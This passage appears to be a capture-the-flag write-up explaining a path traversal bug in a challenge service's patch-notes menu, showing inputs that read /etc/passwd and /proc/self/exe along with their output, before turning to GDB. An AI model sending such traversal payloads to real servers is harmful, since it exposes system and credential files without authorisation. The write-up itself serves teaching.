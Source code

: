 ```
```


Well, look at that. There's a path traversal bug:
fixed in .2 and rolled back in .3 for 'random reasons'.
A path traversal bug is when you have a public server which is meant to serve
files in the starting directory, but instead servers files from the whole machine if
you use relative paths. An example:

```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
...
user:x:1337:1337::/home/user:
```

From here you have a couple options to get the flag: you can either guess
('fuzz') the filename, or you can download the binary and see what file it's
trying to open. Let's do the second.

But wait, how do we get the binary? It turns out on linux there's a `proc` filesystem
which _looks_ like it has a bunch of files but really is a bunch of kernel info about
the running system. What that means for us is we can get the program without knowing the filename or current directory.

```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../../../../../proc/self/exe
ELF>PAAA@X�@8
... more binary follows ...
```

`/proc` is the start of the filesystem, `self` is the directory for the currently running process
(in this case the vulnerable program), and `exe` is the executable file as it was
when the process started running. So now that we've got the binary, we can take a look at what it's doing.

### Enter GDB
If you don't know how to use GDB, I highly recommend learning. Not only will it
be useful for debugging your own code, but it's the main way I know of to
reverse engineer executables.
